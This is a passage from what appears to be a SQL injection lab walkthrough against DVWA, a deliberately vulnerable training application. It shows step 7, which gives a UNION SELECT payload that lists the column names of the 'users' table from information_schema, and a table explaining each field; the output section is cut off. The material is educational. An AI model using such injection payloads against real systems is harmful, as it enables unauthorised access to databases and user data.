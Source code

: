 ![image](images/sqli-dvwa-5.png)

# 7. Enumerate columns

Input: `1' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`

| Field | Description |
| --- | --- |
| `TABLE_NAME` | The table which the column belongs to |
| `COLUMN_NAME` | The name of the column |
| `information_schema.COLUMNS` | MySQL keeps information of all tables and columns in `information_schema` |
| `TABLE_SCHEMA=database()` | Selecting only rows related to the database that the web app is currently using |

Output:

